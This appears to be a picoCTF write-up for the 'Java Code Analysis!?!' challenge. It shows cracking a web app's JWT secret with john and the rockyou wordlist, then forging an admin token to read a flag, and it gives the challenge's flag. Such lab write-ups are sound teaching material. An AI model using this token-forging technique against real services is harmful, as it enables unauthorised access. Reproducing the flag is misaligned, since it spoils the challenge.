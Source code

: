 ## Java Code Analysis!?!

[Link to challenge](https://play.picoctf.org/practice/challenge/355)

Write-up:

1. We are instructed to attempt to read the 'Flag' book. We also have access to the
source code, which is stored in `files`. Logging in as `user:user` and attempting
to read flag tells us we need `admin` access to read it.

2. Looking at the Local Storage in browser inspection shows us there is an `auth-token`
that corresponds to a JWT - here it is its decoded version:

    ```json
    {
    "typ": "JWT",
    "alg": "HS256"
    }

    {
    "role": "Free",
    "iss": "bookshelf",
    "exp": 1758097463,
    "iat": 1757492663,
    "userId": 1,
    "email": "user"
    }
    ```

    In the source code, we can see there is an Admin role.

3. Attempting to crack the secret key using `john jwt.txt --format=HMAC-SHA256 --wordlist=rockyou.txt`
works: `SECRET-KEY=1234`

4. We can look at `BookShelfConfig.java` to see the Admin user's data. 
Crafting the following payload, encoding it using `jwt.io` and setting it in Local
Storage (payload decoded version as `token-payload` and full encoded version as `auth-token`)
allows us to login as `admin` and access the flag:

    ```json
    {
    "typ": "JWT",
    "alg": "HS256"
    }

    {
    "role": "Admin",
    "iss": "bookshelf",
    "exp": 1758097463,
    "iat": 1757492663,
    "userId": 2,
    "email": "admin"
    }
    ```

    Flag: **picoCTF{w34k_jwt_n0t_g00d_42f5774a}**
